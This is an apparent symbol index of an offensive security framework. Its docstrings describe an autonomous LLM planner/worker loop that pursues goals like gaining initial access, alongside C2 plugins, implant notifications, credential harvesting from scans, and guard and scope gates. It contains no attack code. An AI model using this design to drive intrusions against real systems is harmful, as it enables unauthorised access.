``lazy_loop`` runs.\n\nUsage:\n    lazy_view [task_id]", "kind": "method", "line": 299, "name": "do_lazy_view", "signature": "def do_lazy_view(self, line)"}]}, {"doc": "Lazy autonomous loop commands (single orchestrator, lazy_* surface).  Every subsystem is invocable individually so the operator sees what it does, plus ``lazy_loop`` driving the full engine. The orchestrator auto-invokes every step internally, so a human runs ONE command and the engine runs scope, asset, enrich, planner, frontier, worker, guard, traffic, finding, retest, compaction, trace.  Example session (operator-visible, real commands): lazy_task create gain initial access on 127.0.0.1 lazy_scope add ip 127.0.0.1 local test lazy_asset add ip 127.0.0.1 lazy_loop --task t0001 --rounds 6 --workers 2", "id": "cli/commands/lazyops.py", "kind": "module", "label": "lazyops.py", "language": "py", "sha256": "3ed08c4af36e956c", "symbol_count": 71, "symbols": [{"doc": "Import LazyEngine lazily so the shell boots without it.", "kind": "function", "line": 28, "name": "_engine", "signature": "def _engine()"}, {"doc": "Lazy double-graph autonomous loop: planner, workers, guard, retest.", "kind": "class", "line": 35, "name": "LazyCommandSet", "signature": "class LazyCommandSet(LazyOwnCommandSet)"}, {"doc": "Resolve --task flag or fall back to the newest task.", "kind": "method", "line": 41, "name": "_task_id", "signature": "def _task_id(self, args)"}, {"doc": "Return task id or print usage error and empty string.", "kind": "method", "line": 54, "name": "_require_task", "signature": "def _require_task(self, args)"}, {"doc": "Return positional words with flag values stripped.", "kind": "method", "line": 62, "name": "_free_text", "signature": "def _free_text(args)"}, {"doc": "Dispatch one detached task to an external agent: opencode|hermes [--in DIR] [--resume S] [--max-turns N] [--run-budget S] [--timeout S] <task...>. Usage: lazy_dispatch ...", "kind": "method", "line": 88, "name": "do_lazy_dispatch", "signature": "def do_lazy_dispatch(self, line)"}, {"doc": "Create/list/show/pause/resume/delete/spawn/queue/limit/drain tasks. Usage: lazy_task create <goal> | lazy_task list | lazy_task show|pause|resume|delete [--task T] | lazy_task spawn <goal> --from t0001[,t0002] | lazy_task limit [N] | lazy_task queue | lazy_task drain", "kind": "method", "line": 143, "name": "do_lazy_task", "signature": "def do_lazy_task(self, line)"}, {"doc": "Show planner-facing graph overview. Usage: lazy_graph [--task T]", "kind": "method", "line": 265, "name": "do_lazy_graph", "signature": "def do_lazy_graph(self, line)"}, {"doc": "Render the bounded prompt context the planner/worker LLMs receive. Usage: lazy_context [--task T] [--budget N]", "kind": "method", "line": 294, "name": "do_lazy_context", "signature": "def do_lazy_context(self, line)"}, {"doc": "Skills: list|show <name>|preview|inject <name...>|clear|auto on|off|mirror [name]|register-hermes. Usage: lazy_skill ... [--task T]", "kind": "method", "line": 315, "name": "do_lazy_skill", "signature": "def do_lazy_skill(self, line)"}, {"doc": "Confined workspace files: list [path]|read <path>|write <path> <text>|mkdir <path>|rm <path>|path. Usage: lazy_workspace ...", "kind": "method", "line": 397, "name": "do_lazy_workspace", "signature": "def do_lazy_workspace(self, line)"}, {"doc": "Self-update: check [--branch B]|apply [--yes] [--branch B]. Usage: lazy_selfupdate ...", "kind": "method", "line": 450, "name": "do_lazy_selfupdate", "signature": "def do_lazy_selfupdate(self, line)"}, {"doc": "Run one planner wakeup (emits 0..N intents). Usage: lazy_planner [--task T]", "kind": "method", "line": 478, "name": "do_lazy_planner", "signature": "def do_lazy_planner(self, line)"}, {"doc": "Show pending intent queue. Usage: lazy_frontier [--task T]", "kind": "method", "line": 497, "name": "do_lazy_frontier", "signature": "def do_lazy_frontier(self, line)"}, {"doc": "Claim ONE intent and execute it with real tools. Usage: lazy_worker [--task T] [--intent N]", "kind": "method", "line": 509, "name": "do_lazy_worker", "signature": "def do_lazy_worker(self, line)"}, {"doc": "Worker trace exchange. Usage: lazy_trace list|search <q>|search-all <q>|get <intent>|steps <intent> [--q Q]|step <intent> <n> [--task T]", "kind": "method", "line": 549, "name": "do_lazy_trace", "signature": "def do_lazy_trace(self, line)"}, {"doc": "Exploration timeline. Usage: lazy_broadcast [--task T] [--kind K] [--q Q] [--asc] [--page N] [--limit N]", "kind": "method", "line": 602, "name": "do_lazy_broadcast", "signature": "def do_lazy_broadcast(self, line)"}, {"doc": "Inject steering hint. Usage: lazy_hint <text> [--task T]", "kind": "method", "line": 637, "name": "do_lazy_hint", "signature": "def do_lazy_hint(self, line)"}, {"doc": "Inject high-priority intent. Usage: lazy_intent <summary> [--task T] [--priority N]", "kind": "method", "line": 649, "name": "do_lazy_intent", "signature": "def do_lazy_intent(self, line)"}, {"doc": "Delete an intent. Usage: lazy_intent_delete <id> --reason <text> [--hard] [--task T] [--yes]", "kind": "method", "line": 674, "name": "do_lazy_intent_delete", "signature": "def do_lazy_intent_delete(self, line)"}, {"doc": "Goals: list|set <t1;t2>|edit <id> <text>|delete <id>|prove <goal> <evidence> <reason>|met <reason>. Usage: lazy_goal ... [--task T]", "kind": "method", "line": 717, "name": "do_lazy_goal", "signature": "def do_lazy_goal(self, line)"}, {"doc": "Constraints: add <allow|deny> <text> | list. Usage: lazy_constraint ... [--task T]", "kind": "method", "line": 756, "name": "do_lazy_constraint", "signature": "def do_lazy_constraint(self, line)"}, {"doc": "Scope: add <kind> <value> [reason] | list. Usage: lazy_scope ... [--task T]", "kind": "method", "line": 774, "name": "do_lazy_scope", "signature": "def do_lazy_scope(self, line)"}, {"doc": "Serial chain todos: add <text> | done <id> | list. Usage: lazy_todo ... [--task T]", "kind": "method", "line": 792, "name": "do_lazy_todo", "signature": "def do_lazy_todo(self, line)"}, {"doc": "Assets: add <kind> <value> | list [kind] | scoped [--kind K] | coverage | untested. Usage: lazy_asset ...", "kind": "method", "line": 814, "name": "do_lazy_asset", "signature": "def do_lazy_asset(self, line)"}, {"doc": "Enrich asset with DNS/HTTP. Usage: lazy_enrich <host-or-url>", "kind": "method", "line": 855, "name": "do_lazy_enrich", "signature": "def do_lazy_enrich(self, line)"}, {"doc": "Traffic: list|search <q>|search-host <host> [--port P]|get <digest>|body <digest>|blob <digest> [--part req|resp] [--offset N] [--length N]|search-body <q>|templates|template <t>|bind <finding> <digest> [--role R] [--note N]|evidence <finding>|export <path>|archive|clear|start [--port P] [--upstream H:P]|stop|status|ca|trust|ingest|recorder-export <zip> [--task T]|recorder-import <zip>|recorder-inbox|recorder-gc [--days N]. Usage: lazy_traffic ... [--task T] [--limit N]", "kind": "method", "line": 867, "name": "do_lazy_traffic", "signature": "def do_lazy_traffic(self, line)"}, {"doc": "Guard gate: check <cmd> | rule-add <pattern> <allow|ask|deny> [reason] | rule-del <p> | judge on|off [--fail allow|deny] | judge fail <allow|deny> | judge | audit [--action A] [--source S] [--q Q] [--limit N] | lookup <tool_use_id> | stats | pending | approve <id> | deny <id>. Usage: lazy_guard ...", "kind": "method", "line": 1088, "name": "do_lazy_guard", "signature": "def do_lazy_guard(self, line)"}, {"doc": "Findings: list [--full] [--limit N]|report <name> :: <summary>|status <id> <st>|update <id> <text>|context <id>. Usage: lazy_finding ... [--task T] [--severity S] [--vulnclass C]", "kind": "method", "line": 1189, "name": "do_lazy_finding", "signature": "def do_lazy_finding(self, line)"}, {"doc": "Retest finding to reproduced/fixed/inconclusive. Usage: lazy_retest <finding_id> [--task T] [--note TEXT]", "kind": "method", "line": 1254, "name": "do_lazy_retest", "signature": "def do_lazy_retest(self, line)"}, {"doc": "Mid-run correction. Usage: lazy_steer <intent> <message> [--task T]", "kind": "method", "line": 1273, "name": "do_lazy_steer", "signature": "def do_lazy_steer(self, line)"}, {"doc": "Terminate running intent. Usage: lazy_kill <intent> [--task T]", "kind": "method", "line": 1285, "name": "do_lazy_kill", "signature": "def do_lazy_kill(self, line)"}, {"doc": "Pause task loops. Usage: lazy_pause [--task T]", "kind": "method", "line": 1297, "name": "do_lazy_pause", "signature": "def do_lazy_pause(self, line)"}, {"doc": "Resume paused task. Usage: lazy_resume [--task T]", "kind": "method", "line": 1307, "name": "do_lazy_resume", "signature": "def do_lazy_resume(self, line)"}, {"doc": "Export severity-ranked report. Usage: lazy_report [--task T] [--format md|json|csv] [--out PATH]", "kind": "method", "line": 1317, "name": "do_lazy_report", "signature": "def do_lazy_report(self, line)"}, {"doc": "Show/set loop runtime: budgets, deadline, abort cause, heartbeat, settlement text. Usage: lazy_runtime show [--task T] | lazy_runtime budget <max_toolcalls> <max_findings> <timeout_s> [--task T] | lazy_runtime settle <agent> <reason> [--task T]", "kind": "method", "line": 1334, "name": "do_lazy_runtime", "signature": "def do_lazy_runtime(self, line)"}, {"doc": "Show worker tool defaults injected into every probe. Usage: lazy_payload_keys [tool]", "kind": "method", "line": 1381, "name": "do_lazy_payload_keys", "signature": "def do_lazy_payload_keys(self, line)"}, {"doc": "Facts: list [query] [--hot|--cold]|add <text>. Usage: lazy_fact ... [--task T]", "kind": "method", "line": 1393, "name": "do_lazy_fact", "signature": "def do_lazy_fact(self, line)"}, {"doc": "Full node detail. Usage: lazy_node <id> [--task T]", "kind": "method", "line": 1421, "name": "do_lazy_node", "signature": "def do_lazy_node(self, line)"}, {"doc": "Evidence vault and frozen package.\n\nUsage:\n    lazy_evidence add <finding> <kind> <body> [--task T]\n    lazy_evidence list <finding> [--task T]\n    lazy_evidence verify|gc [--task T]\n    lazy_evidence package [path] [--task T]\n    lazy_evidence search <query> [limit] [--task T]", "kind": "method", "line": 1441, "name": "do_lazy_evidence", "signature": "def do_lazy_evidence(self, line)"}, {"doc": "Bounded side question over task context. Usage: lazy_ask <question> [--task T] [--session S] | lazy_ask history [--task T] [--session S]", "kind": "method", "line": 1508, "name": "do_lazy_ask", "signature": "def do_lazy_ask(self, line)"}, {"doc": "Tool registry for the main agent (full tool calling surface).", "kind": "method", "line": 1534, "name": "_agent_main_tools", "signature": "def _agent_main_tools(self, task_id)"}, {"doc": "Invariant contract of the main agent.", "kind": "method", "line": 1651, "name": "_agent_main_prompt", "signature": "def _agent_main_prompt(self, task_id)"}, {"doc": "Main agent with full tool calling (native backend or opencode). Usage: lazy_agent new [--title T]|list|show <sid>|say <prompt...> [--session S] [--continue] [--backend native|opencode] [--task T]", "kind": "method", "line": 1662, "name": "do_lazy_agent", "signature": "def do_lazy_agent(self, line)"}, {"doc": "Company scope: add <name> [scope]|list|match <value>. Usage: lazy_company ...", "kind": "method", "line": 1763, "name": "do_lazy_company", "signature": "def do_lazy_company(self, line)"}, {"doc": "Tool catalog: list [agent]|bind|unbind <agent> <tool>|custom-add <name> <command|script|http> <target> [--desc D] [--method M] [--body B] [--timeout S] [--trigger http,https]|custom-list|custom-rm <name>|custom-run <name> [arg]. Usage: lazy_tool ...", "kind": "method", "line": 1785, "name": "do_lazy_tool", "signature": "def do_lazy_tool(self, line)"}, {"doc": "Loop verb admin: list [--phase P] [--q Q]|enable|disable <verb>|add <verb> --keywords K [--phase P] [--no-target] [--desc D]|remove <verb>|full-cli [on|off]. Usage: lazy_verb ...", "kind": "method", "line": 1857, "name": "do_lazy_verb", "signature": "def do_lazy_verb(self, line)"}, {"doc": "Loop stage admin: list|enable|disable <stage>|reset. Usage: lazy_stage ...", "kind": "method", "line": 1951, "name": "do_lazy_stage", "signature": "def do_lazy_stage(self, line)"}, {"doc": "Addon trigger runner: list [service]|run <name> [--target T]. Usage: lazy_addon ... [--task T]", "kind": "method", "line": 1979, "name": "do_lazy_addon", "signature": "def do_lazy_addon(self, line)"}, {"doc": "Notify channels: list|add <log|webhook|file|slack|email> <target> [--min S] [--to a] [--from f] [--user u] [--pass p] [--no-tls]|remove <n>|test [severity]. Usage: lazy_notify ... [--task T]", "kind": "method", "line": 2061, "name": "do_lazy_notify", "signature": "def do_lazy_notify(self, line)"}, {"doc": "Scheduler triggers: list|add <kind> [every_sec]|remove <id>|addons|sync. Usage: lazy_trigger ... [--task T]", "kind": "method", "line": 2109, "name": "do_lazy_trigger", "signature": "def do_lazy_trigger(self, line)"}, {"doc": "LLM chain: list|add <name> [model] [--priority N]|priority <name> <N>|remove <name>|usage|health|context [N]|record [on|off]|raw [--limit N]|conformance [--role R]|bind <member...> --task T|chain --task T|failover --task T. Usage: lazy_llm ...", "kind": "method", "line": 2168, "name": "do_lazy_llm", "signature": "def do_lazy_llm(self, line)"}, {"doc": "Compaction: minor|major [--threshold N]|unfolded [--limit N]|overview|noa|expand <digest>. Usage: lazy_compact ... [--task T]", "kind": "method", "line": 2305, "name": "do_lazy_compact", "signature": "def do_lazy_compact(self, line)"}, {"doc": "Full task status. Usage: lazy_status [--task T]", "kind": "method", "line": 2377, "name": "do_lazy_status", "signature": "def do_lazy_status(self, line)"}, {"doc": "Alias of lazy_graph. Usage: lazy_overview [--task T]", "kind": "method", "line": 2401, "name": "do_lazy_overview", "signature": "def do_lazy_overview(self, line)"}, {"doc": "Task snapshots: save [--task T]|list|stats|restore <path>. Usage: lazy_archive ...", "kind": "method", "line": 2406, "name": "do_lazy_archive", "signature": "def do_lazy_archive(self, line)"}, {"doc": "Goal templates: list|add <name> <goal>|use <name>|remove <name>. Usage: lazy_template ...", "kind": "method", "line": 2437, "name": "do_lazy_template", "signature": "def do_lazy_template(self, line)"}, {"doc": "Task labels: set <name> [--task T]|list [name]. Usage: lazy_category ...", "kind": "method", "line": 2468, "name": "do_lazy_category", "signature": "def do_lazy_category(self, line)"}, {"doc": "Task conversation: say <text>|log|clear|sessions. Usage: lazy_chat ... [--task T] [--session S]", "kind": "method", "line": 2489, "name": "do_lazy_chat", "signature": "def do_lazy_chat(self, line)"}, {"doc": "Scheduler state: show|run. Usage: lazy_scheduler ... [--task T]", "kind": "method", "line": 2522, "name": "do_lazy_scheduler", "signature": "def do_lazy_scheduler(self, line)"}, {"doc": "Asset gate: list|check <target>|block-add <kind> <pattern> [note]|block-del <id>|allow-add <kind> <pattern> [note]|allow-del <id>. Usage: lazy_gate ... [--task T] (allow-* require --task)", "kind": "method", "line": 2549, "name": "do_lazy_gate", "signature": "def do_lazy_gate(self, line)"}, {"doc": "Run the single orchestrator: auto-invokes scope/asset/enrich/planner/frontier/worker/guard/traffic/finding/retest/compact/trace. Usage: lazy_loop [--task T] [--rounds N] [--workers N] [--timeout S] [--sandbox [image]] [--view|--plain] [<goal>]", "kind": "method", "line": 2594, "name": "do_lazy_loop", "signature": "def do_lazy_loop(self, line)"}, {"doc": "Per-task Docker sandbox: status [--task T]|up --task T [--image I]|down --task T|build|exec --task T <verb...>. Usage: lazy_sandbox ...", "kind": "method", "line": 2614, "name": "do_lazy_sandbox", "signature": "def do_lazy_sandbox(self, line)"}, {"doc": "Capability installer: <tool> [--dry-run]|on|off|list. Usage: lazy_install ...", "kind": "method", "line": 2671, "name": "do_lazy_install", "signature": "def do_lazy_install(self, line)"}, {"doc": "Execute one shell command or LazyOwn verb and return its output.", "kind": "function", "line": 1539, "name": "run_command", "signature": "def run_command(command)"}, {"doc": "List every task with status, intents, facts and findings.", "kind": "function", "line": 1561, "name": "list_tasks", "signature": "def list_tasks()"}, {"doc": "Graph overview of one task (defaults to the active task).", "kind": "function", "line": 1565, "name": "task_graph", "signature": "def task_graph(task)"}, {"doc": "Findings of one task with severity, status and report size.", "kind": "function", "line": 1569, "name": "task_findings", "signature": "def task_findings(task)"}, {"doc": "Campaign summary: tasks, findings and phase counters.", "kind": "function", "line": 1573, "name": "campaign_sitrep", "signature": "def campaign_sitrep()"}, {"doc": "Inject an operator hint into the active task planner.", "kind": "function", "line": 1586, "name": "add_hint", "signature": "def add_hint(text)"}, {"doc": "Send a mid-run course correction to a running intent.", "kind": "function", "line": 1593, "name": "steer_intent", "signature": "def steer_intent(intent, message)"}]}, {"doc": "Plugin/addon marketplace commands.  Discover, install, and manage community plugins, lazyaddons, and Lua payload generators from local and remote sources.", "id": "cli/commands/marketplace.py", "kind": "module", "label": "marketplace.py", "language": "py", "sha256": "1bce62a746de88f3", "symbol_count": 18, "symbols": [{"doc": "Clone a git repository shallow, returning success.", "kind": "function", "line": 47, "name": "_safe_git_clone", "signature": "def _safe_git_clone(repo_url, dest, depth)"}, {"doc": "Browse and install community plugins, addons, and tool integrations.", "kind": "class", "line": 62, "name": "MarketplaceCommandSet", "signature": "class MarketplaceCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 68, "name": "_registry", "signature": "def _registry(self)"}, {"doc": "Load explicit tier overrides from plugins/tiers.yaml.", "kind": "method", "line": 74, "name": "_tiers", "signature": "def _tiers(self)"}, {"doc": "Return the operator-local ratings store.", "kind": "method", "line": 78, "name": "_ratings_path", "signature": "def _ratings_path(self)"}, {"doc": "Resolve the display tier for an installed name.", "kind": "method", "line": 82, "name": "_tier_label", "signature": "def _tier_label(self, name, tiers)"}, {"doc": "Return dict of category -> list of installed names.", "kind": "method", "line": 86, "name": "_installed_plugins", "signature": "def _installed_plugins(self)"}, {"doc": "Discover and install community plugins, addons, and tools.\n\nUsage:\n    marketplace list [--tier official|community|experimental]\n    marketplace search <name>  — search for available plugins\n    marketplace install <name> — install a plugin by name\n    marketplace update         — refresh community plugin index\n    marketplace info <name>    — show details about a plugin\n    marketplace rate <name> <1-5> — rate a plugin (operator-local)\n    marketplace ratings [name] — show recorded ratings\n    marketplace config         — interactive enable/disable wizard\n\nExamples:\n    marketplace list\n    marketplace list --tier official\n    marketplace search c2\n    marketplace install phantom2\n    marketplace rate phantom2 5\n    marketplace config", "kind": "method", "line": 104, "name": "do_marketplace", "signature": "def do_marketplace(self, line)"}, {"doc": "Display installed plugins grouped by category, optionally tier-filtered.", "kind": "method", "line": 175, "name": "_mp_list", "signature": "def _mp_list(self, tier_filter)"}, {"doc": "Search installed and suggest community plugins.", "kind": "method", "line": 203, "name": "_mp_search", "signature": "def _mp_search(self, query)"}, {"doc": "Install a plugin from the community repository.", "kind": "method", "line": 241, "name": "_mp_install", "signature": "def _mp_install(self, name)"}, {"doc": "Refresh the community plugin index.", "kind": "method", "line": 300, "name": "_mp_update", "signature": "def _mp_update(self)"}, {"doc": "Show detailed information about a plugin.", "kind": "method", "line": 333, "name": "_mp_info", "signature": "def _mp_info(self, name)"}, {"doc": "Record an operator rating for a plugin.", "kind": "method", "line": 380, "name": "_mp_rate", "signature": "def _mp_rate(self, name, raw_stars)"}, {"doc": "Show recorded operator ratings, optionally for one plugin.", "kind": "method", "line": 394, "name": "_mp_ratings", "signature": "def _mp_ratings(self, name)"}, {"doc": "Launch the interactive marketplace configurator (curses TUI).", "kind": "method", "line": 414, "name": "_mp_interactive_config", "signature": "def _mp_interactive_config(self)"}, {"doc": "Interactive marketplace manager (curses TUI).\n\nOpens a Powerlevel10k-style wizard to browse, enable/disable,\nedit (``e``), and create (``c``) lazyaddons, plugins, and tools.\n\nUsage:\n    marketplace_config            — open the interactive wizard\n    marketplace_config show       — print a text summary\n    marketplace_config enable <n> — enable a plugin by name\n    marketplace_config disable <n> — disable a plugin by name\n\nThe wizard mirrors ``config_banner``: Arrow keys move, Space\ntoggles, ``a``/``n`` enable/disable all, ``e`` edits in $EDITOR,\n``c`` creates a new lazyaddon from template, Enter saves, Escape\ncancels.", "kind": "method", "line": 426, "name": "do_marketplace_config", "signature": "def do_marketplace_config(self, line)"}, {"doc": "Enable or disable an addon by name across all directories.", "kind": "method", "line": 468, "name": "_mp_toggle_addon", "signature": "def _mp_toggle_addon(self, name, enable_state)"}]}, {"doc": "MCP verb bridge — one command language for operators and agents.  The MCP server (``skills/lazyown_mcp.py``) exposes workflow verbs that the operator documentation (ESSENTIALS.md, CHEATSHEET.md) teaches, but those verbs historically only existed on the agent side, so a human following the golden path hit ``unknown command``. This CommandSet registers the same verbs in the interactive shell, delegating to the same underlying modules the MCP handlers use, so the documented path works end to end:  ping -> lazynmap -> auto_populate -> facts_show -> recommend_next  Provides: auto_populate   Parse the latest nmap XML and fill payload context. facts_show      Show structured facts extracted from scans/tool output. rag_query       Semantic search over session artefacts. parquet_query   Query the parquet knowledge bases (GTFOBins/LOLBas/ATT&CK). threat_model    Build or inspect the derived threat model. playbook_run    Execute a generated YAML playbook through the shell. auto_loop       Run a goal through the daemon orchestrator backend. session_state   Alias of ``sitrep`` (MCP name parity). campaign_sitrep Alias of ``sitrep`` (MCP name parity). timeline        Alias of ``timeline_browser`` (MCP name parity).", "id": "cli/commands/mcp_bridge.py", "kind": "module", "label": "mcp_bridge.py", "language": "py", "sha256": "ceaa86578fdec429", "symbol_count": 20, "symbols": [{"doc": "Return the argparse parser used by ``auto_populate``.", "kind": "function", "line": 55, "name": "_build_auto_populate_parser", "signature": "def _build_auto_populate_parser()"}, {"doc": "Return the argparse parser used by ``facts_show``.", "kind": "function", "line": 72, "name": "_build_facts_show_parser", "signature": "def _build_facts_show_parser()"}, {"doc": "Return the argparse parser used by ``rag_query``.", "kind": "function", "line": 89, "name": "_build_rag_query_parser", "signature": "def _build_rag_query_parser()"}, {"doc": "Return the argparse parser used by ``parquet_query``.", "kind": "function", "line": 97, "name": "_build_parquet_query_parser", "signature": "def _build_parquet_query_parser()"}, {"doc": "Return the argparse parser used by ``threat_model``.", "kind": "function", "line": 116, "name": "_build_threat_model_parser", "signature": "def _build_threat_model_parser()"}, {"doc": "Return the argparse parser used by ``playbook_run``.", "kind": "function", "line": 129, "name": "_build_playbook_run_parser", "signature": "def _build_playbook_run_parser()"}, {"doc": "CLI shims exposing the documented MCP verbs to human operators.", "kind": "class", "line": 143, "name": "McpBridgeCommandSet", "signature": "class McpBridgeCommandSet(LazyOwnCommandSet)"}, {"doc": "Parse the latest nmap XML scan and auto-populate payload context.\n\nFills domain, os_id, open services and start_user/start_pass from\n``sessions/scan_<target>.nmap.xml`` and ``sessions/credentials.txt``.\nRun this right after ``lazynmap`` so subsequent commands inherit the\ndiscovered target context. Mirrors the ``lazyown_auto_populate`` MCP\ntool.", "kind": "method", "line": 151, "name": "do_auto_populate", "signature": "def do_auto_populate(self, args)"}, {"doc": "Show structured facts extracted from nmap scans and tool output.\n\nFacts include open ports, detected services, discovered credentials,\naccessible shares and achieved access level per target. Mirrors the\n``lazyown_facts_show`` MCP tool.", "kind": "method", "line": 258, "name": "do_facts_show", "signature": "def do_facts_show(self, args)"}, {"doc": "Semantic search over session artefacts (scans, logs, notes).\n\nMirrors the ``lazyown_rag_query`` MCP tool.", "kind": "method", "line": 283, "name": "do_rag_query", "signature": "def do_rag_query(self, args)"}, {"doc": "Query the parquet knowledge bases (GTFOBins, LOLBas, ATT&CK, sessions).\n\nModes: ``session`` (past command outcomes by phase/target),\n``keyword`` (search all parquets), ``context`` (phase briefing),\n``stats`` and ``list``. Mirrors the ``lazyown_parquet_query`` MCP tool.", "kind": "method", "line": 313, "name": "do_parquet_query", "signature": "def do_parquet_query(self, args)"}, {"doc": "Build or inspect the threat model derived from session events.\n\nActions: ``build`` (default) regenerates the model, ``load`` shows the\ncached one, ``ttps`` lists observed ATT&CK techniques. Mirrors the\n``lazyown_threat_model`` MCP tool.", "kind": "method", "line": 375, "name": "do_threat_model", "signature": "def do_threat_model(self, args)"}, {"doc": "Execute a generated YAML playbook step by step through the shell.\n\nEach step command runs via the interactive shell so aliases and hooks\napply. Defaults to the newest ``sessions/playbook_*.yaml``. Mirrors\nthe ``lazyown_playbook_run`` MCP tool.", "kind": "method", "line": 428, "name": "do_playbook_run", "signature": "def do_playbook_run(self, args)"}, {"doc": "Run a goal through the single lazy orchestrator (auto_loop == lazy_loop).\n\nUsage:\n    auto_loop [--target T] [--task T] [--rounds N] [--workers N]\n              [--timeout S] [--step-delay S] [--no-bootstrap]\n              [--view|--plain] <goal>\n\nBoth commands share one runner (``modules.lazy_runner``): one\nengine, one chain, one terminal-safety path. ``--view`` opens\nthe live worker monitor instead of the milestone panel.", "kind": "method", "line": 486, "name": "do_auto_loop", "signature": "def do_auto_loop(self, line)"}, {"doc": "Alias of ``sitrep`` kept for MCP verb parity (lazyown_session_state).", "kind": "method", "line": 520, "name": "do_session_state", "signature": "def do_session_state(self, line)"}, {"doc": "Alias of ``sitrep`` kept for MCP verb parity (lazyown_campaign_sitrep).", "kind": "method", "line": 525, "name": "do_campaign_sitrep", "signature": "def do_campaign_sitrep(self, line)"}, {"doc": "Alias of ``timeline_browser`` kept for MCP verb parity (lazyown_timeline).", "kind": "method", "line": 530, "name": "do_timeline", "signature": "def do_timeline(self, line)"}, {"doc": "Forward ``line`` to another shell command verbatim.", "kind": "method", "line": 534, "name": "_delegate", "signature": "def _delegate(self, command, line)"}, {"doc": "Hot-reload declarative aliases after mutating payload context.", "kind": "method", "line": 542, "name": "_refresh_aliases", "signature": "def _refresh_aliases(self)"}, {"kind": "function", "line": 472, "name": "_executor", "signature": "def _executor(command, host)"}]}, {"doc": "misc commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/misc_migrated.py", "kind": "module", "label": "misc_migrated.py", "language": "py", "sha256": "c388f679b79439c7", "symbol_count": 32, "symbols": [{"kind": "class", "line": 87, "name": "MiscMigratedCommandSet", "signature": "class MiscMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Fall back to ``utils`` for bare-name references used by migrated commands.", "kind": "function", "line": 1172, "name": "__getattr__", "signature": "def __getattr__(name)"}, {"doc": "Command to trigger a toastr-like notification.\nUsage: notify <type> <message>\nExample: notify success Implant checked in!", "kind": "method", "line": 92, "name": "do_notify", "signature": "def do_notify(self, arg)"}, {"doc": "Handle the end-of-file (EOF) condition.\n\nThis method is called when the user sends an end-of-file (EOF) signal\nby pressing Ctrl+D. It is typically used to handle cleanup or exit\noperations when the user terminates input.\n\nIn this implementation, it prints a farewell message and returns True\nto indicate that the shell should exit.\n\nLicense: This function is part of a program released under the GNU General\nPublic License v3.0 (GPLv3). You can redistribute it and/or modify it\nunder the terms of the GPLv3, as published by the Free Software Foundation.\n\nNote: This method is a part of the `cmd` library's command handling\nsystem. You can override it in a subclass to customize its behavior.\n\nExample:\n    >>> shell = LazyOwnShell()\n    >>> shell.do_EOF(None)\n    LazyOwn say Goodbye!\n    (shell exits)", "kind": "method", "line": 111, "name": "do_EOF", "signature": "def do_EOF(self, line)"}, {"doc": "Set the kill-chain auto-refresh cadence for the current session.", "kind": "method", "line": 150, "name": "_handle_killchain_auto", "signature": "def _handle_killchain_auto(self, spec)"}, {"doc": "Browse the operator command catalogue grouped by kill-chain phase.\n\nThe data source is :file:`cli/command_index.json`, generated by\n``scripts/build_command_index.py``. Rendering is delegated to\n:func:`cli.palette_command.render` so the same logic powers the C2\n``/palette`` endpoint and the MCP ``lazyown_palette`` tool.\n\nUsage:\n    ``palette``                     overview of every phase\n    ``palette <phase>``             list commands in a phase\n    ``palette <phase> <query>``     filter that listing\n    ``palette --search <query>``    fuzzy search across all phases\n    ``palette --info <name>``       full detail for a single command", "kind": "method", "line": 179, "name": "do_palette", "signature": "def do_palette(self, line)"}, {"doc": "Fuzzy search the graphify knowledge graph for nodes by label.\n\nUsage: ``graph_search <query> [limit]``. Returns ranked nodes from\n``graphify-out/graph_lazyown.json`` with degree, community and\nsource location. Run ``/graphify .`` from the project root once if\nthe graph is missing.\n\n:param line: free-text query, optionally followed by a numeric limit.\n:type line: str\n:return: None", "kind": "method", "line": 204, "name": "do_graph_search", "signature": "def do_graph_search(self, line)"}, {"doc": "Show graph neighbors of a node or command from the graphify graph.\n\nUsage: ``neighbors <node_or_command> [depth] [limit]``. Resolves\nthe closest matching node (by id or label) and walks the graph\noutward. Useful for the question *\"if I just ran X, what is it\nconnected to?\"*.\n\n:param line: node id or label, optional integer depth, optional\n    integer limit.\n:type line: str\n:return: None", "kind": "method", "line": 232, "name": "do_neighbors", "signature": "def do_neighbors(self, line)"}, {"doc": "Show the most-connected nodes (\"god nodes\") from the graph.\n\nUsage: ``god_nodes [N]``. These are the core abstractions of the\ncodebase by degree centrality. Useful as orientation when you've\njust started a campaign and want a map of the framework.\n\n:param line: optional numeric limit (default from the advisor config).\n:type line: str\n:return: None", "kind": "method", "line": 259, "name": "do_god_nodes", "signature": "def do_god_nodes(self, line)"}, {"doc": "Suggest next commands by walking the graph from recent activity.\n\nUsage: ``suggest_next [N]``. Reads ``sessions/LazyOwn_session_report.csv``\nto find recent commands and recommends graph neighbours weighted by\ninverse distance. Pass space-separated command names to override the\nrecent history (``suggest_next lazynmap do_ping 7``).\n\n:param line: optional list of seed commands, optionally followed by\n    a numeric limit.\n:type line: str\n:return: None", "kind": "method", "line": 278, "name": "do_suggest_next", "signature": "def do_suggest_next(self, line)"}, {"doc": "Recommend the next action via the unified recommendation engine.\n\nThis is the single source of truth for \"what next\". The engine in\n``cli/recommendation.py`` fuses every available signal into one ranked\nlist with full provenance:\n\n- **policy** (``skills/lazyown_policy.py``) — learned kill-chain category\n  priors that up-weight matching concrete actions.\n- **recon plan** (``cli/recon_plan.py``) — addons/tools/commands whose\n  trigger matches services in the latest nmap scan.\n- **graph** (``cli/graph_advisor.py``) — graphify neighbours of your\n  recent activity. Requires ``/graphify .`` at least once.\n- **kill-chain** — static adjacency / phase-priority tables.\n\nSignals whose backend is absent degrade silently. This is the CLI\nequivalent of the MCP tool ``lazyown_recommend_next``.\n\nUsage:\n    ``recommend_next [N]``", "kind": "method", "line": 404, "name": "do_recommend_next", "signature": "def do_recommend_next(self, line)"}, {"doc": "Show exploration coverage and addon/tool suggestions per service.\n\nReads ``sessions/scan_*.nmap.xml`` for discovered services, joins\nthem with the ``trigger`` and ``os`` fields declared in every\n``lazyaddons/*.yaml`` and ``tools/*.tool``, and renders a Rich\ntree alongside a coverage table summarising how much of the\nattack surface has already been touched by previous commands.\n\nUsage:\n    ``explore``                show coverage for the active rhost\n    ``explore <target>``       force a target (defaults to ``rhost``)\n\nThe view highlights items whose trigger matches a discovered\nservice but have never been run, so the operator can pick the\nnext high-value command without manually scanning the YAMLs.", "kind": "method", "line": 458, "name": "do_explore", "signature": "def do_explore(self, line)"}, {"doc": "Show prerequisite commands for a verb (the chain's ``prev`` arrow).\n\nUsage:\n    ``prev <command>``     